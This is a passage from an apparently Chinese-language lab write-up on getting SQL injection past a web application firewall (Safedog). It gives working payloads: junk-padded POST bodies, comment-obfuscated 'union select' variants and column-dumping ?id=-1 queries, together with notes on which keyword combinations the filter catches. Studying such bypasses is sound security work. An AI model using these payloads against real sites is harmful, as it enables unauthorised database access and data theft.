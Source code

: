 安全🐕在`HTTP BODY`中检测到了关键字，直接返回500。。



```sql
POST
a=8172*A&id=-1 union select 1,2,3%23
```

![image-20230516151625299](../images/image-20230516151625299.png)

### 注意

`waf`可能直接检测长度来拦截

如安全🐕,`GET`下是不行的

![image-20230516151807403](../images/image-20230516151807403.png)



## 分块传输实验

成功，图没截。。

## 正面绕过

简单fuzz

![image-20230517001306283](../images/image-20230517001306283.png)

可以发现不会对单一的关键字进行过滤，会对一些组合进行过滤

### `union select`绕过

```mysql
union (select)
UNiOn/*/1/*/select
UNiOn--+%02%0d%0aselect    #注释换行
```

```sql
?id=-1 UNiOn/**/select 1,2,3#
```

![image-20230516154023102](../images/image-20230516154023102.png)

```sql
?id=-1 UNiOn/*/1/*/select 1,2,3#
```

![image-20230516154137250](../images/image-20230516154137250.png)

在`/**/`中插入`/x/`即可，x至少为一个字符

### 函数绕过
